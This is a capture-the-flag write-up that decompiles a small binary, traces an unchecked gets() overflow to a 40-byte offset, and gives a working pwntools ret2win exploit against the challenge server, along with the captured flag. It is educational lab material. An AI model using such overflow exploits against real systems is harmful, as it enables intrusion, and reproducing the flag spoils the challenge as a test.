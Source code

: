 # B00fer
> The Consortium sent us this file and connection info. Looks like they are taunting us. They are running the file at b00fer.niccgetsspooky.xyz, at port 9001. Try to get them to give up the flag.
>
> nc b00fer.niccgetsspooky.xyz 9001

> Look up some buffer overflow tutorials online.

> gdb is a useful tool, gdb with the gef plugin is better

We are given a binary which prints a text and asks for user input. When we open it in Ghidra, we can decompile `main` function to see what it does.

```c
undefined8 main(void)

{
  char local_28 [32];
  
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Hi there NICC! This program is 100% and there is NO WAY you are getting our flag.\n");
  gets(local_28);
  return 0;
}
```

There's a buffer of size 32 and an unsanitized `gets` function. Passing into the binary a string of 100 characters leads to segmentation fault.

Looking further into Ghidra, we can find a function `win`

```c
void win(void)

{
  char local_38 [40];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  fread(local_38,1,0x20,local_10);
  puts(local_38);
  puts("Good!\n");
  FUN_004010e0(1);
                    /* WARNING: Bad instruction - Truncating control flow here */
  halt_baddata();
}
```

It opens a flag on the remote server, so our goal is clearly to overwrite RIP register and jump to this function.

We can generate a [buffer overflow offset string](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), open the binary in a debugger (GDB in my case), set a breakpoint and check the address of RSP register after a call to `gets`.

For a string of len 200 the program tries to jump to an address `0x3562413462413362`, which translates to an offset of 40 between the input buffer and RSP register.

![buffer overflow address](./image.png)

Inspecting the binary attributes (pwndbg: `checksec`) shows that it's not a PIE executable:


![binary attributes](./image2.png)

This means that we can just put the address of `win` function into RSP.

Final exploit:
```py
from pwn import *

payload = b"A" * 40 + p64(0x401227)

conn = remote("b00fer.niccgetsspooky.xyz", 9001)

print(conn.recvline())
conn.sendline(payload)
print(conn.recvuntil(b"}"))
```

`NICC{Sp00ked_the_fl4g_0ut_of_m3}`